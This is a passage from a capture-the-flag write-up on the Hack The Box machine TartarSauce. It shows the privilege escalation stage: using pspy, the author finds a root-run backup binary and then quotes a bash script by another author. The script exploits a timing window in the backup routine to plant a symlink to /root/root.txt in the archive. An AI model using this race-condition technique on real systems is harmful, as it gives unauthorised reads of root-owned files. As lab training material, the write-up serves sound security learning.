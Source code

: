 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914131250.png)

and we are onuma right now and we can take user flag.

## Privilege Escalation

Let's check processes with pspy as I spot in linpeas, there is some files created in last 5min
pspy32
after few min I got sth

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914132308.png)

Let's check this /usr/sbin/backuperer binary

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914132535.png)

And we can spot that this is deletes all in /var/tmp and create /var/tmp/.sth backup
Then waint 30sec create dir /var/tmp/check and extract zip /var/tmp/.sth.
Ok I stoped there cause my scripting knowledge isn't enough to bypass it and found 0xdf script 

https://0xdf.gitlab.io/2018/10/20/htb-tartarsauce.html#file-read-as-root
```
#!/bin/bash

## work out of shm
cd /dev/shm

## set both start and cur equal to any backup file if it's there
start=$(find /var/tmp -maxdepth 1 -type f -name ".*")
cur=$(find /var/tmp -maxdepth 1 -type f -name ".*")

## loop until there's a change in cur
echo "Waiting for archive filename to change..."
while [ "$start" == "$cur" -o "$cur" == "" ] ; do
    sleep 10;
    cur=$(find /var/tmp -maxdepth 1 -type f -name ".*");
done

## Grab a copy of the archive
echo "File changed... copying here"
cp $cur .

## get filename
fn=$(echo $cur | cut -d'/' -f4)

## extract archive
tar -zxf $fn

## remove robots.txt and replace it with link to root.txt
rm var/www/html/robots.txt
ln -s /root/root.txt var/www/html/robots.txt

## remove old archive
rm $fn

## create new archive
tar czf $fn var

## put it back, and clean up
mv $fn $cur
rm $fn
rm -rf var

## wait for results
```